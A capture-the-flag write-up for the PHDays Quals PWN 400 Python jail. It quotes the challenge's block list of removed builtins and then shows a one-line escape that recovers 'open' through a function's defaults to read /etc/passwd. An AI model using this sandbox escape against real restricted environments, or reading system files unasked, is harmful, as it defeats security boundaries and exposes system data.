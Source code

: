 # PHDays Quals PWN 400

PWN 400 is a python jail. We are given a python REPL, but most useful
functions and builtins are deleted from the global namespace. We are
offered one function, **Reader(filename)**, but it can only read three
files:

* log.1
* log.2
* log.3

The files contain dumps of trollfaces :(.

We're also given the source code, which has two files.

**pyjail.py** is the REPL. This is the most important code:

    inp = raw_input('>>> ')
    a = None
    exec 'a=' + inp

**secure_reader.py** is the script that makes the REPL annoying to use.

    UNSAFE_BUILTINS = [
        'open', 'file', 'execfile', 'reload', 'input', 'eval', 'type', 'compile'
        ]

    UNSAFE_ATTRS = [
        '__globals__', '__closure__'
        ]

    ALLOWED_FILES = [
        'log.1', 'log.2', 'log.3'
        ]

...

    def remove_builtins():
        for item in UNSAFE_BUILTINS:
            del __builtin__.__dict__[item]
        def null(*args, **kwargs):
            pass
        __builtin__.__import__ = null

...

    del dictionary_of(type)['__subclasses__']
    del dictionary_of(GeneratorType)['gi_frame']
    del dictionary_of(FrameType)['f_code']
    del dictionary_of(FrameType)['f_builtins']
    del dictionary_of(FrameType)['f_globals']
    del dictionary_of(GeneratorType)['gi_code']

And so on

So it removes most of the usable functions. Here is how it defines the
Reader function:

    def _Reader(
        open_file=open,
        type=type,
        TypeError=TypeError,
        Namespace=Namespace,
        ):

        @guard(filename=str)
        def Reader(filename):
           if filename not in ALLOWED_FILES:
               raise ValueError("You can't read that shit!")
           data = open_file(filename).read()
           return data

        return Reader

    Reader = _Reader()

The outside function **_Reader** returns the inside function **Reader**,
which is what we have access to. It is important to realize that **if Reader
can read files at all, then it must have access to some file reading
mechanism**. It calls 'open_file', which is really just an alias to
'open'. We get the open function through the Object Tree starting with
the Reader function.

    Reader.func_globals['_Reader'].func_defaults[0]

We can also read the **/etc/passwd** file directly now

    Reader.func_globals['_Reader'].func_defaults[0]('/etc/passwd').read()

Which contains the flag in plaintext.

    41f20268caa093e1b746e5ca750d3aa0

